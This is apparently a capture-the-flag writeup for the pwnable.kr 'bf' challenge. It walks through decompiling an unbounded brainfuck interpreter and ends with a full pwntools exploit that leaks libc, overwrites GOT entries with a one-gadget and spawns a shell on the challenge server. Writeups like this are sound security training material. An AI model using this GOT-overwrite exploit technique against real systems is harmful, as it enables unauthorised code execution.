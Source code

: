 ```yaml
---
layout: post
title: pwnable.kr - bf writeup
---
```

> **brain fuck - 150 pt**
> 
> I made a simple brain-fuck language emulation program written in C. 
> The [ ] commands are not implemented yet. However the rest functionality seems working fine. 
> Find a bug and exploit it to get a shell. 
>
> 
> Download : http://pwnable.kr/bin/bf
> 
> Download : http://pwnable.kr/bin/bf_libc.so
>
> 
> Running at : nc pwnable.kr 9001

First, download the binary and decompile it (I used Ghidra for this). We can see that it's a simple implementation of a brainfuck interpreter. However, there are no bounds checks, so we can read and write to basically wherever we want as long as the code for it isn't too long (as the `[]` instructions aren't available in this version).
```c

undefined4 main(void)

{
  size_t sVar1;
  int in_GS_OFFSET;
  uint local_418;
  char local_414 [1024];
  int local_14;
  
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,1,0);
  p = tape;
  puts("welcome to brainfuck testing system!!");
  puts("type some brainfuck instructions except [ ]");
  memset(local_414,0,0x400);
  fgets(local_414,0x400,stdin);
  local_418 = 0;
  while( true ) {
    sVar1 = strlen(local_414);
    if (sVar1 <= local_418) break;
    do_brainfuck((int)local_414[local_418]);
    local_418 = local_418 + 1;
  }
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```
```c

void do_brainfuck(undefined param_1)

{
  char *pcVar1;
  int iVar2;
  
  pcVar1 = p;
  switch(param_1) {
  case 0x2b:
    *p = *p + 1;
    break;
  case 0x2c:
    iVar2 = getchar();
    *pcVar1 = (char)iVar2;
    break;
  case 0x2d:
    *p = *p + -1;
    break;
  case 0x2e:
    putchar((int)*p);
    break;
  case 0x3c:
    p = p + -1;
    break;
  case 0x3e:
    p = p + 1;
    break;
  case 0x5b:
    puts("[ and ] not supported.");
  }
  return;
}

```
We can see from `pwn checksec` that we have a writable GOT, and that PIE is off:
```bash
$ pwn checksec ./bf
[*] '/home/user/ctf/ctf-solutions/pwnable-kr/bf/bf'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
So we can write to the GOT. Now we just have to figure out where, and what. I couldn't find a simple way to call `system` directly, so I searched for one-gadgets:
```bash
$ one_gadget bf_libc.so
0x3ac6c execve("/bin/sh", esp+0x28, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x28] == NULL

0x3ac6e execve("/bin/sh", esp+0x2c, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x2c] == NULL

0x3ac72 execve("/bin/sh", esp+0x30, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x30] == NULL

0x3ac79 execve("/bin/sh", esp+0x34, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x34] == NULL

0x5fbd5 execl("/bin/sh", eax)
constraints:
  esi is the GOT address of libc
  eax == NULL

0x5fbd6 execl("/bin/sh", [esp])
constraints:
  esi is the GOT address of libc
  [esp] == NULL
```
I ran through the main function in GDB and it turns out that the conditions are just right for the gadget at 0x5fbd5 to get a shell if I replaced the GOT address of puts with the gadget. So then we just have to get `_start` called from somewhere (because otherwise the `esi` constraint won't be satisfied if we directly call `main`). I chose `putchar` because we can choose when we want to call it through the brainfuck code and because `getchar` is already being used for writing data.

Finally, to get a libc leak, we can just simply read off the GOT with some brainfuck code. Do be careful to make sure `putchar` is resolved before trying to leak it, which we can do by printing out some random character before our exploit. Also, we have to use the `,` instruction instead of the `+`/`-` instructions here because we don't know what bytes we need to write before the libc leak.

Full exploit code: 
```python3
# leak libc base
# write one-gadget to puts got 
'''
0x5fbd5 execl("/bin/sh", eax)
constraints:
  esi is the GOT address of libc
  eax == NULL
'''
# jump back to __libc_start_main with another got overwrite 
from pwn import *
context.log_level = 'debug'
e = ELF('./bf')
libc = ELF('./bf_libc.so')
#r = process('./bf_patched')
r = remote('pwnable.kr', 9001)
#r = gdb.debug('./bf_patched', 'b main\nc')
r.recvuntil(b']\n')
r.sendline(b'.'+b'<'*(e.sym['tape']-e.got['putchar'])+b'.>'*4+b'<'*4+b',>'*4+b'<'*(e.got['putchar']+4-e.got['puts'])+b',>'*4+b'.')
# make sure putchar is resolved first 
r.recv(1)
leak = u32(r.recv(4))
print('putchar@got =', hex(leak))
libc.address = leak - libc.sym['putchar']
print('libc.address =', hex(libc.address))
# putchar -> __libc_start_main(main), puts -> one-gadget
r.send(p32(e.sym['_start']))
r.send(p32(libc.address + 0x5fbd5))
r.interactive()
```
And with that, we get a shell.

All of the files for this challenge are available at <https://github.com/programmeruser2/ctf-solutions/tree/main/pwnable-kr/bf>.

